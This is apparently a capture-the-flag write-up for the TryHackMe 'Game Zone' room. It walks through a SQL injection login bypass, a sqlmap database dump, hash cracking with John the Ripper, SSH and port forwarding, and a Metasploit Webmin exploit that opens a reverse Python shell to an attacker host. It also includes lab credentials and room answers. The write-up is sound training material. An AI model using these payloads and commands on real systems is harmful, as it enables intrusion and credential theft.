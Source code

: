 # Game Zone

**Room Link:** [https://tryhackme.com/room/gamezone](https://tryhackme.com/room/gamezone)



### **Obtain access via SQLi**

Username field was vulnerable to SQLi,

```
Username: ' or 1=1 -- -
Password: anything
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

### **Using SQLMap**

I setup burp to intercept requests and then tried searching for something on the portal page

<figure><img src="../../.gitbook/assets/image (10) (2) (1).png" alt=""><figcaption></figcaption></figure>

Saved the request into a file called request.txt, if you highlight everything and right click you can copy to file

<figure><img src="../../.gitbook/assets/image (4) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (29) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r request.txt --dbms=mysql --dump
```

<figure><img src="../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

**In the users table, what is the hashed password?**

ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

**What was the username associated with the hashed password?**

agent47

**What was the other table name?**

post

<figure><img src="../../.gitbook/assets/image (26) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### **Cracking a password with JohnTheRipper**

Used the following site to idenfitfy what the hash type was. It identified that it is SHA2-256.

**Hash Analyzer:** [https://www.tunnelsup.com/hash-analyzer/](https://www.tunnelsup.com/hash-analyzer/)

<figure><img src="../../.gitbook/assets/image (27) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**What is the de-hashed password?**

john was able to crack the hash ehich gave us the password videogamer124.

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-SHA256
```

<figure><img src="../../.gitbook/assets/image (14) (2) (2).png" alt=""><figcaption></figcaption></figure>

```
ssh agent47@10.10.74.145
Password: videogamer124
```

\
**Now you have a password and username. Try SSH'ing onto the machine. What is the user flag?**

<figure><img src="../../.gitbook/assets/image (30) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Exposing services with reverse SSH tunnels**

**How many TCP sockets are running?**

```
ss -tulpn
```

<figure><img src="../../.gitbook/assets/image (8) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

**What is the name of the exposed CMS?**

```
ssh -L 10000:localhost:10000 agent47@10.10.74.145
Password: videogamer124
```

<figure><img src="../../.gitbook/assets/image (24) (2) (1).png" alt=""><figcaption></figcaption></figure>

**What is the CMS version?**

I was able to login with the previous credentials found and find the CMS version.

```
Username: agent47
Password: videogamer124
```

<figure><img src="../../.gitbook/assets/image (28) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation with Metasploit**



<figure><img src="../../.gitbook/assets/image (16) (3) (1).png" alt=""><figcaption></figcaption></figure>

```
msfconsole
search 1.580
use 1
set USERNAME agent47
set PASSWORD videogamer124
set RHOSTS 127.0.0.1
set ssl false 

set payload cmd/unix/reverse_python
set lhost 10.10.108.150
set lport 443
exploit
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

